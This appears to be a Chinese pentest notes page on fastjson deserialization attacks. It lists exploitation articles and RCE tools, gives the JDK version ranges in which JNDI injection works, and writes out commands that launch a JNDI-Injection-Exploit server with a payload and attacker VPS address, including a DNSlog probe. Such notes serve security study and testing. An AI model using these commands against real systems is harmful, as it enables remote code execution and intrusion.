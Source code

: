 # fastjson

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

> 项目地址 : https://github.com/alibaba/fastjson

**相关文章**
- [Fastjson反序列化进攻利用](https://mp.weixin.qq.com/s/i7-g89BJHIYTwaJbLuGZcQ)
- [fastjson反序列化历史与检测](https://mp.weixin.qq.com/s/cCUYMiPsJnqHHdKHUno6UA)
- [Fastjson探测简介](https://mp.weixin.qq.com/s/Js2FeYr9cWLtWXkgqd7HiQ)
- [fastjson漏洞时间线](https://mp.weixin.qq.com/s/f2scum8wWcCeOOOR7nKHaQ)
- [某json 绕墙的Tips](https://xz.aliyun.com/t/7568)
- [浅谈fastjson waf Bypass思路](https://sec-in.com/article/950)

**相关工具**
- [wyzxxz/fastjson_rce_tool](https://github.com/wyzxxz/fastjson_rce_tool) - fastjson rce 命令执行综合利用工具，一键操作,fastjson remote code execute poc
- [c0ny1/FastjsonExploit](https://github.com/c0ny1/FastjsonExploit) - fastjson漏洞快速利用框架
- [Lonely-night/fastjson_gadgets_scanner](https://github.com/Lonely-night/fastjson_gadgets_scanner) - scanner 扫描反编译生成的源文件
- [p1g3/Fastjson-Scanner](https://github.com/p1g3/Fastjson-Scanner) - a burp extension to find where use fastjson
- [Maskhe/FastjsonScan](https://github.com/Maskhe/FastjsonScan)
- [bigsizeme/fastjson-check](https://github.com/bigsizeme/fastjson-check)

---

## JNDI注入影响范围

1. 基于 rmi 的利用方式, 适用 jdk 版本：JDK 6u132、JDK 7u122、JDK 8u113 之前

2. 基于 ldap 的利用方式, 适用 jdk 版本：JDK 11.0.1、8u191、7u201、6u211 之前

---

## 运行 JNDI 服务器命令

**JNDI-Injection-Exploit**

```bash
java -jar /pentest/JNDI-Injection-Exploit/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "<payload>" -A <vps ip>
java -jar /pentest/JNDI-Injection-Exploit/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xxxx.dnslog.cn" -A xx.xx.xx.xx
```

**marshalsec**
